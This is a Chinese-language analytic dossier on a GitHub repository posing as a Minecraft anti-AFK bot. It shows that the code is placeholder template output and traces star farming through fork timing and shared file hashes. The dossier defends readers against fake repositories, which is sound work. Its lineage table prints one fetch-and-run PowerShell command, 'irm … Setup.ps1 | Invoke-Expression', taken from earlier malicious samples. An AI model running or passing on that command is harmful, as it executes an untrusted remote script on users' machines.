

# sentinelsoldierprize/Minecraft-AFK-Bot

> **⚠️ 本档案的用途**：这不是一份推荐档案，而是一份**可核验的反例样本**。
> 2026-11-08 的持续跟踪核查发现：它的 `subscribers_count` = **35**，是当日 162 个候选中**最高**的，比全部四个真项目（4 / 2 / 1 / 0）高一个数量级；而其仓库是一个 5 commit、6 文件、7 KB 的模板骨架，**其代码虽能运行但输出的只是模板占位数据**。**这一事件导致本日报修正了 11-07 提出的「subs 是低噪声深度信号」判据。**

## 一句话定位
一个自称的「Minecraft 防 AFK 机器人 + Web 面板」，**而其仓库内不含任何可核验的 Minecraft 相关实现，且 `main.py` 的占位逻辑与 `utils.py` 与 Minecraft 毫无关系 —— 代码能运行，但输出的只是模板占位数据**。

## 它解决的问题

**（声明层面）** 声明称：让 Minecraft 账号保持在线以避免被服务器因不活跃踢出；模拟轻微移动（头部转动、跳跃）以绕过 AFK 检测；自动重连；带 Web 面板；支持多账号切换。

⭐⭐⭐⭐⭐ **但仓库内不存在任何可核验的实现**，**且存在一处会直接抛异常的错误**：

`main.py`（164 B，完整内容）：

```python
"""Entry point for engine."""

from utils import build


def main():
    result = build(10)
    print(f"Project: {result}")


if __name__ == "__main__":
    main()
```

⭐⭐⭐⭐⭐ **注意这个 import 是能解析的** —— 仓库里确实有 `utils.py`，其中确实定义了 `def build(limit)`。⭐⭐⭐⭐⭐ **但 `utils.py`（101 B，完整内容）**：

```python
"""Utility helpers for engine."""


def build(limit):
    return [item * 2 for item in range(limit)]
```

⭐⭐⭐⭐⭐ **一个与 Minecraft 毫无关系的列表推导 —— 这正是 2026-11-06 那个「连 import 都无法解析」案例的同源占位符。** ⭐⭐⭐⭐⭐ **两者的差别只在失败级别**：⭐⭐⭐⭐ **2026-11-06 的姊妹样本 `PulverizeLink/roblox-performance-tool` 写的是同一个 `from utils import build`，但那个仓库里 `utils.py` 根本不存在（API 返回 404），代码连 import 都无法解析**；⭐⭐⭐⭐⭐ **而本仓库的 `utils.py` 存在、代码能跑通，但跑出来的结果是 `[0, 2, 4, ..., 18]` —— `main()` 打印 `Project: [0, 2, 4, ..., 18]`，即模板占位数据。** ⭐⭐⭐⭐⭐ **而 README 自述的技术栈与仓库内容完全对不上**：

> - **Core:** Node.js / Mineflayer
> - **Web Server:** Express
> - **Real-time:** Socket.io
> - **Auth:** Microsoft / Mojang
> - **Target OS:** Windows / macOS / Linux

⭐⭐⭐⭐⭐ **`language` 字段是 Python，仓库里没有任何 JS/TS 文件、没有 Mineflayer、没有 Express/Socket.io、没有 Web 面板。**

## 为什么值得关注（2026-11-08）

**⭐⭐⭐⭐⭐ 它是本日「判据被针对」事件的最强样本 —— 因为它的订阅数是当日最高的。**

| 仓库 | ⭐ | forks | **subs** | README 是否索取 star | 代码状态 |
|---|---:|---:|---:|---|---|
| **`sentinelsoldierprize/Minecraft-AFK-Bot`** | **425** | 260 | **35（本日最高）** | ⭐⭐⭐⭐⭐ **是，两处** | 模板骨架，无 Minecraft 实现 |
| `Poltergeistlunagrid/Steam-Idler` | 425 | 313 | 25 | ⭐⭐⭐⭐⭐ 是，两处 | 模板骨架，无 Steam 实现 |
| `dabingfy-dot/solo-to-team-skills` | 130 | 14 | 4 | 否 | 4 支技能 + 模板 + 案例 |
| `lxe/phoneuse` | 118 | 10 | 2 | 否 | 完整实现，34 文件，85 commits |
| `Th0rgal/satmux` | 316 | 17 | 1 | 否 | 7 文件完整实现 |
| `MajestyPoemFold/ghostclick-mouse-double-click-fix` | 136 | 21 | 0 | 否（导流 Discord） | Rust + Tauri，77 文件 |

⭐⭐⭐⭐⭐ **35 : 4 —— 最高订阅数落在了一个没有任何 Minecraft 代码的仓库上。** ⭐⭐⭐⭐⭐ **而机制就写在 README 里**，Quick Start 第 5 步之后与文末各一次：

```
**⭐ Star the repo if it helped you.**
```

⭐⭐⭐⭐⭐ **因此 2026-11-07 日报中的这句判据必须修正**：

> ~~「⭐⭐ **subs 是一个噪声极低但样本极小的指标**」~~（依据：poki 83 fork / 1 subs、hermes-voice 20 fork / 3 subs）
> **「subs 只在同作者族内可比；跨作者比较前必须先确认该仓库的 README 是否含索取 star/watch 的语句。」**

⭐⭐⭐⭐⭐ **而它与 `Steam-Idler` 一起，把本日报从 2026-10-21 以来的连续观察推进成一条完整的谱系**：

| 日期 | 形态 | 关键证据 |
|---|---|---|
| 2026-11-06 前 | 可执行 PowerShell 载荷 | `irm https://git-software.cc/ps/Setup.ps1 \| Invoke-Expression` |
| 2026-11-06 | starter 模板（4 仓库） | `.gitignore` md5 `e18f025c...`；`helpers.py` md5 `8470fd5b...` |
| **2026-11-07** | **索取 star 的同模板变体（本仓库 + Steam-Idler）** | **同两个 md5 + README 两处 `⭐ Star the repo if it helped you.`** |
| 2026-11-07 | 空壳占位符 + 关键词投毒（85 + 57 仓库） | `initial.html` md5 `258a0f5e...`；README 末尾 24 个 `Related Search Terms` |

⭐⭐⭐⭐⭐ **四天四种形态，背后的基础设施是同一套 —— 而本日报已能给出跨三天的文件级血缘（`.gitignore` md5 `e18f025c87b71b9fe481f53ac6e8235d` 与 `helpers.py` md5 `8470fd5b911eacd63327be59d2562f16` 在两天、六个仓库之间重复）。**

## 热度来源判断

425⭐ ⑂260（**fork/star 61.2%**）、**subs 35**、oi 0、5 commits、7 KB、Python、MIT、topics 空数组、User 账号（`created_at` = 2026-11-07T18:07:44Z，**当天新建**）。

⭐⭐⭐⭐⭐ **热度来源判断：机器投放 + 定向索取关注，非真实需求。**

1. ⭐⭐⭐⭐⭐ **fork 到达是机器节奏，且是本日全场最低**：抽样 100 个 fork 的时间戳，**间隔中位数 4.0 秒、99 个相邻间隔中 98 个 ≤10 秒、全部落在 9.9 分钟内**。⭐⭐⭐⭐ 对照 11-06：`roblox-studio-mcp` 5.0 秒、`roblox-performance-tool` 6.0 秒；对照真人样本：`sheeridVerify` 74 秒 / 8.9%、`ghostclick` 1555 秒 / 0%。
2. ⭐⭐⭐⭐⭐ **commit 是逐文件补录**：5 个 commit 在 **26 秒**内完成（`18:07:45Z` Initial commit → `18:08:10Z` Add utils.py），标题依次为 `Add main.py` / `Add utils.py` / `Add helpers.py` / `Add README.md`。
3. ⭐⭐⭐⭐⭐ **文件 md5 与已知农场集合重复**（详见下节）。
4. ⭐⭐⭐⭐⭐ **README 索取 star 两处**，直接解释 subs 35。
5. ⭐⭐⭐⭐ **fork/star 61.2%** 与 11-06 的 `roblox-studio-mcp`（61%）几乎相同 —— **同一模板的同一参数区间。**

## 关键技术亮点

⭐⭐⭐⭐⭐ **本项目没有技术亮点可写 —— 这正是它被收录的原因。** 本节记录的是**它与已知农场集合的逐字节关系**：

| 文件 | 本仓库 | md5 | 与 2026-11-06 农场簇的关系 |
|---|---|---|---|
| `.gitignore` | 4,664 B | `e18f025c87b71b9fe481f53ac6e8235d` | ⭐⭐⭐⭐⭐ **与 `roblox-studio-mcp` / `roblox-performance-tool` / `crypto-portfolio-tracker` / `discord-quest-completer` 完全相同（跨日复用）** |
| `helpers.py` | 97 B | `8470fd5b911eacd63327be59d2562f16` | ⭐⭐⭐⭐⭐ **与 `crypto-portfolio-tracker` / `discord-quest-completer` 逐字节相同（跨日复用）**；**与本日 `Steam-Idler` 也相同** |
| `utils.py` | 101 B | `a997f57e945509119ddf2aff162eb960` | ⭐⭐⭐⭐ 与 11-06 `roblox-studio-mcp` 的 `utils.py`（104 B，md5 `f5ffc7d93c4b19208e33ee6e48f8d984`）**结构相同而参数不同**（本仓库 `"""Utility helpers for engine."""` + `def build(limit)`；前者 `"""Utility helpers for starter."""` + `process(limit)`） |
| `main.py` | 164 B | — | ⭐⭐⭐⭐ `"""Entry point for engine."""` + `from utils import build` —— **docstring 的 `engine` 与 11-06 的 `starter` 属同一批模板变体** |
| `LICENSE` | 1,077 B | — | MIT |
| `README.md` | 3,612 B | — | 内容为该工具的宣传文案 |

⭐⭐⭐⭐⭐ **而它的免责声明段落是本日最值得抄的一处 —— 因为它写在了虚假功能旁边**：

> > ⚠️ **Warning:** Using automated clients may violate the rules of some Minecraft servers. Use responsibly and only on servers where such tools are permitted.
> **Does it work on Aternos?** Yes. It's perfect for keeping free Aternos servers from shutting down due to inactivity.
> **Can I use it on multiple accounts?** Yes. The web dashboard supports adding and switching between multiple accounts.

⭐⭐⭐⭐⭐ **即：一份免责声明的详尽程度可以与同一份 README 里的虚假实现完全脱钩 —— 这是「用合规话术包装空壳」的典型形态。** ⭐⭐⭐⭐⭐ **它甚至提到了「部分服务器禁止自动化客户端」这类真实的 Minecraft 服务器规则，从而让整份 README 读起来相当专业。**

## 架构师速览

| 决策问题 | 研究判断 | 证据边界 |
|---|---|---|
| 系统边界 | **不存在可讨论的系统边界** —— 仓库内没有系统。README 声明的边界是「本地运行、连接你的 Minecraft 服务器、模拟轻微移动、Web 面板、多账号」，**而仓库内容与这些声明无对应关系** | 全部依据为树查询与文件原文；本日报**未执行该仓库的任何代码** |
| 主路径 | README 声明的主路径为「Node.js/Mineflayer 客户端 → Minecraft 服务器 → 模拟移动 + 自动重连 → Express/Socket.io Web 面板」；**仓库内不存在这条路径的任何实现**（`language` 为 Python，无 JS/TS 文件，无 Mineflayer/Express/Socket.io） | 同上；`main.py` 与 `utils.py` 全文已在本档案引用 |
| 关键权衡 | **（作为观察对象）** 它用 6 个文件 / 3,612 字节 README 换取 425⭐ + 260 fork + 35 subscriber —— **代价是仓库不承载任何功能**。**（作为方法论对象）** 它暴露的关键权衡是「投放方愿意把成本花在 `subscribers_count` 上，因为该字段在跨项目比较中看起来最像『深度信任』」 | 前者由树查询与元数据直接支持；后者是推断，依据是 35 subs 与 README 的索取 star 语句之间的直接对应 |
| 最小 PoC | **不适用** —— 唯一合理的检查是「核对 `helpers.py` / `.gitignore` 的 md5 是否落在已知农场集合中」与「核对 README 是否含索取 star 的语句」，两者均为纯文本检查，本日报已执行并命中 | 已执行；`helpers.py` md5 `8470fd5b911eacd63327be59d2562f16` 与 11-06 农场簇重复 |
| 证据边界 | 全部结论基于 2026-11-08 CST 的 GitHub API 快照：树查询、文件原文、`language`/`license`/计数字段、fork 时间戳、README 全文。**本日报未执行其代码，未访问其 release 或 issue。** ⭐⭐⭐⭐⭐ **本档案不主张该仓库的意图，只主张其可核验内容与 README 宣称不一致。** | 无独立复现；oi 0，无第三方反馈 |

## 架构启发

⭐⭐⭐⭐⭐ **启发一（最重要）：最像「信任指标」的字段，最容易被伪造。**

⭐⭐⭐⭐⭐ `subscribers_count` 与 `stargazers_count` 的区别仅在于「点了 Watch」这个额外动作 —— **在用户的心理模型里，Watch 比 Star 更接近「我打算持续关注这个项目」，因此它读起来更像质量信号**。⭐⭐⭐⭐⭐ **本日报的错误正在于此：把一个「看起来更可信的字段」当成了「更可信的字段」，而没有问「它能被低成本抬高吗」。** ⭐⭐⭐⭐⭐ **答案是能：README 里加一行即可。** ⭐⭐⭐⭐⭐ **因此字段的可信度不来自它的语义，而来自「达成它所需的成本」。**

⭐⭐⭐⭐⭐ **启发二：模板变体的参数化痕迹，是识别批量生成的最佳证据。**

⭐⭐⭐⭐⭐ 本仓库 `utils.py` 的 `"""Utility helpers for engine."""` 与 11-06 `roblox-studio-mcp` 的 `"""Utility helpers for starter."""` —— **docstring 的主语不同、函数名不同（`build` vs `process`）、字节数不同（101 vs 104），但结构完全一致**。⭐⭐⭐⭐⭐⭐ **这种「只换名词的差异」是批量模板生成的签名**，比「完全相同」更有说服力，因为它排除了「巧合复制同一个 gist」的解释。

⭐⭐⭐⭐⭐ **启发三：合规话术与功能实现的脱钩，值得单列为一种攻击形态。**

⭐⭐⭐⭐⭐ 本仓库的免责声明、Aternos 支持说明、多账号支持说明，全部具体、贴心、符合真实用户的关切 —— **而仓库里没有任何相关代码**。⭐⭐⭐⭐⭐ **这比「谎称有功能」更难被机器检查发现**：一个只查「README 提到的依赖是否存在」的检查器会通过，因为「Minecraft 服务器」「Aternos」确实不是仓库里的依赖。⭐⭐⭐⭐⭐ **检查器必须查的是「README 宣称的**运行时行为**是否有对应实现」，而不是「README 里出现的名词是否在仓库里」。**

⭐⭐⭐⭐ **启发四：两个同模板仓库的 subs 之差（35 vs 25）也有信息量。**

⭐⭐⭐⭐⭐ 同一模板、同一天、同一句话，**一个拿到 35 一个拿到 25** —— 差异可能来自受众规模（Steam 用户 ≫ Minecraft 用户）或投放批次。⭐⭐⭐⭐ **这提示：即使是同一次投放，其效果也可按目标人群分层** —— **对一个做趋势研究的人来说，这意味着「按主题分层」比「按总数排序」更有信息量。**

## 架构图（MMD）

> 证据边界：此图只采用本档案已有可核验描述；“待核验”节点不应视为项目实现事实。




## 定位判断

**观察型（反例样本）—— 收录目的是让「热度 ≠ 价值」这句话在本仓库里保持可核验、可复查。**

⭐⭐⭐⭐⭐ **它是本日判据失效事件的最强证据，因为它的 subs 是当日最高的。** ⭐⭐⭐⭐⭐ **一个研究仓库如果只收录好项目，那么当某天全部候选都是农场时，读者无法判断这个仓库是否有发现能力 —— 收录反例是让「本日结论」可被证伪的唯一办法。**

⭐⭐⭐⭐ **它在「模板跨日复用」谱系上的位置**：它是 `.gitignore` md5 `e18f025c...` 与 `helpers.py` md5 `8470fd5b...` 这条血缘链上**从 11-06 跨到 11-07 的第一个已确证节点**。⭐⭐⭐⭐⭐ **换言之，它是本日报第一次拿到「同一模板文件在两个不同日期的仓库里同时出现」的直接字节证据。**

⭐⭐⭐⭐ **它同时是本日 85 个空壳簇与 57 个关键词投毒簇之外的第三种形态** —— **它有 README、有截图占位、有详尽的功能说明、有免责声明，只是代码是模板**。⭐⭐⭐⭐⭐ **这三种形态的共同点是：README 的「体面程度」与仓库的「实质内容」完全解耦。**

## 风险 / 局限 / 泡沫点

- ⚠️⚠️⚠️ **风险（对研究方法）：这是本日报连续使用 `subs` 作为跨项目判据以来第一次被证伪的样本。** ⭐⭐⭐⭐⭐ **如果不修正，任何基于 subs 的自动化筛选会持续输出「README 里写了请给我 star 的仓库」。**
- ⚠️⚠️⚠️ **风险（对该仓库本身的定性）：本档案只能证明「宣称与实现不符」，不能证明意图。** ⭐⭐⭐⭐⭐ **一个 6 文件的仓库也可能确实是「先发公告、后补实现」** —— 但 5 个 commit 在 26 秒内完成、README 宣称的 Mineflayer/Express/Socket.io 一个都不存在、且与已知农场集合 md5 重复，**这三条同时成立使「早期项目」的解释力很弱**。⭐⭐⭐⭐⭐ **本档案仍不主张意图。**
- ⚠️⚠️⚠️ **风险（对读者的实际影响）：它宣称能绕过服务器 AFK 检测并支持多账号，这本身就是 ToS 敏感的自动化客户端形态** —— 即使功能真实，多数服务器也禁止此类客户端。⭐⭐⭐⭐ **而仓库内没有任何可执行内容，所以「照做」的结果是「什么都没有」。**
- ⚠️⚠️ **这是一个当天新建的账号**：`created_at` = 2026-11-07T18:07:44Z，与仓库创建相差 1 秒。
- ⚠️⚠️ **oi 0**：没有任何 issue 讨论 —— **即没有任何第三方在此仓库内留下过痕迹**。
- ⚠️⚠️ **subs 35 在索取 star 的语境下产生**：⭐⭐ **它不构成独立的质量信号；它构成的是「索取 star 这个动作能抬高多少」的一个数据点。**
- ⚠️ **本日报未执行其代码，未访问其外部链接**：⭐⭐⭐ **「README 里提到的面板或下载在别处提供」这一可能性，本窗口未做外部核实。**
- ⚠️ **`main.py` 与 `utils.py` 的组合可运行但不产出有意义结果**：`build(10)` 返回 `[0, 2, 4, ..., 18]`，`main()` 打印 `Project: [0, 2, 4, ..., 18]`。⭐⭐⭐ **即代码能跑，但跑出来的是模板占位数据。**

## 与同类项目的关系

- **vs `Poltergeistlunagrid/Steam-Idler`（本日同批建档）**：⭐⭐⭐⭐⭐ **最强对照** —— 同一天、同为 425⭐、同样 5–6 文件、同样 `.gitignore` 与 `helpers.py` 的 md5、同样 README 两处索取 star；**唯一差异是 subs（35 vs 25）与 fork 数（260 vs 313）**。⭐⭐⭐⭐⭐ **两个样本共同证明了「同一模板在不同包装下产生近似热度」这一现象。**
- **vs 2026-11-06 的 `HerdBuilderEstimate/roblox-studio-mcp`（427⭐ ⑂260）**：⭐⭐⭐⭐⭐ **近乎同构** —— **fork 数几乎相同（260 vs 260）、fork/star 几乎相同（61.2% vs 61%）**、`.gitignore` md5 相同、fork 间隔中位数同为 5–6 秒、README 同样自述 Node.js/TS 而 `language` 为 Python。⭐⭐⭐⭐⭐ **两者可以被视为「同一模板的第 N 次实例化」。**
- **vs 2026-11-06 的 `PulverizeLink/roblox-performance-tool`（426⭐ ⑂386）**：⭐⭐⭐⭐ **互补样本** —— 该仓库的 `main.py` 写 `from utils import build` 而 `utils.py` **根本不存在**（404），**代码连 import 都无法解析**；而本仓库的 `utils.py` 存在但内容是无关的列表推导。**两者共同覆盖了「模板占位符」的两种失败级别：文件缺失 与 文件无意义。**
- **vs 2026-11-07 的 57 个 `ai--manus` 簇**：⭐⭐⭐⭐ **形态不同**：manus 簇不索取 star（机制是 SEO 关键词堆 + Dropbox 直链），本仓库索取 star。⭐⭐⭐⭐ **两者代表两种「收割注意力的不同通道」—— 站内 star 收割 与 站外搜索引擎收割。**
- **vs `MajestyPoemFold/ghostclick-mouse-double-click-fix`（本日同批建档）**：⭐⭐⭐⭐⭐ **最有价值的对照**：ghostclick 不索取 star（导流 Discord）、有 77 文件与真实实现、subs = 0。⭐⭐⭐⭐ **本仓库 subs = 35 且无实现。两者并排即证明「subs 高」不是「质量高」的充分条件。**
- **vs `dabingfy-dot/solo-to-team-skills`（本日同批建档）**：⭐⭐⭐⭐⭐ **subs 4 vs 35 的对照**：两者都有 README 索取式引导，但 solo-to-team 的 README 不索取 star，**它的 4 个 subscriber 因此更可能是真实的深度关注者** —— **这一条正是修正后的判据要区分的东西。**

## 是否值得持续跟踪

**值得跟踪，但跟踪对象是「它的消失」而不是「它的成长」。** ⭐⭐⭐⭐

⭐⭐⭐⭐⭐ **理由**：它是本日报修正判据的最强原始证据，且它是「模板跨日复用」这条血缘链上已确证的关键节点。⭐⭐⭐⭐⭐ **若它未来消失，说明整个事件是一次性的；若它继续增长并出现真实 issue 或真实代码，则是对本档案结论的一次真实检验 —— 两种结局都有信息量。**

⭐⭐⭐⭐ **对使用者的实际建议**：**不要从这个仓库安装或运行任何东西。** ⭐⭐⭐⭐ **仓库内不存在可运行内容。**

## 后续观察点

1. **⭐⭐⭐⭐⭐ 它的 subs 是否继续增长**：若继续上升而 oi 仍为 0，「subs 膨胀」机制被进一步确认；⭐⭐⭐⭐ **若 subs 回落而 star 不变，则说明 Watch 与 Star 是两个独立行为 —— 这同样有价值。**
2. **⭐⭐⭐⭐⭐ 它是否出现真实 issue**：oi 从 0 起任何变化，都是「有第三方进入过这个仓库」的信号。
3. **⭐⭐⭐⭐ 它是否补上 Mineflayer 实现**：若有，需要修正本档案的定性。
4. **⭐⭐⭐ `README.md` 的 md5 是否与 `Steam-Idler` 或其它仓库重复**：若重复，说明文案也是模板化的。
5. **⭐⭐⭐ 它的 owner 账号是否继续产出同类仓库**：判断「单个农场」与「批量生成基础设施」。
6. **⭐⭐⭐⭐⭐ 它的 fork 时间分布是否在后续采样中仍保持 4–6 秒中位数**：**若中位数随时间上升，说明投放是一次性的；若持续保持机器节奏，则说明基础设施仍在运行** —— 这对本日报未来几天的判据选择影响最大。

---
*首次记录：2026-11-08*
